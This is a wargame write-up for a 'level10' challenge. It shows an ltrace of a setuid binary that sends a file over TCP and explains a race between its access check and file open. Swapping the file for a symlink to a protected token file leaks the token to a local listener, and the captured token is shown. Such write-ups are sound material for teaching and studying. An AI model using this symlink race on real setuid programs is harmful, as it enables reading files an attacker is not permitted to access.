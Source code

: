 # level10 solution
Given setuid binary and token file with no read permissions for our user. We can run this binary with ltrace to get the idea of wht it's doing:

    ltrace ./level10 /tmp/some_file 127.0.0.1
    __libc_start_main(0x80486d4, 3, 0xbffff7b4, 0x8048970, 0x80489e0 <unfinished ...>
    access("/tmp/some_file", 4)                      = 0
    printf("Connecting to %s:6969 .. ", "127.0.0.1") = 32
    fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                               = 0
    socket(2, 1, 0)                                  = 3
    inet_addr("127.0.0.1")                           = 0x0100007f
    htons(6969, 1, 0, 0, 0)                          = 14619
    connect(3, 0xbffff6fc, 16, 0, 0)                 = 0
    write(3, ".*( )*.\n", 8.*( )*.
    )                         = 8
    printf("Connected!\nSending file .. "Connected!
    )           = 27
    fflush(0xb7fd1a20Sending file .. )                               = 0
    open("/tmp/some_file", 0, 010)                   = 4
    read(4, "", 4096)                                = 0
    write(3, "", 0)                                  = 0
    puts("wrote file!"wrote file!
    )                              = 12
    +++ exited (status 12) +++
    [1]+  Done                    nc -l 127.0.0.1 6969

To run this program we need to start a new server with netcat and create some file which we have access to. Setuid binary accepts file and ip address as arguments, connects to the provided address and sends provided file via tcp stream. This program first checks if we have access to the provided file, then it connects to the server and sends initial message, and only after that it will open provided file and send file content to the server. In this gap between access check and file open we can replace original file with link to the token file. So we have to code server application which accepts one client and immediately removes provided to the setuid binary file with link to the roken file, then it should read 2 messages and display second one.

    ./level10 /tmp/level10/token 127.0.0.1
    Connecting to 127.0.0.1:6969 .. Initial message recieved: .*( )*.
    Connected!
    Sending file .. Token recieved: woupa2yuojeeaaed06riuj63c
    wrote file!
    [1]+  Done                    ./server  (wd: /tmp/level10)
    (wd now: ~)

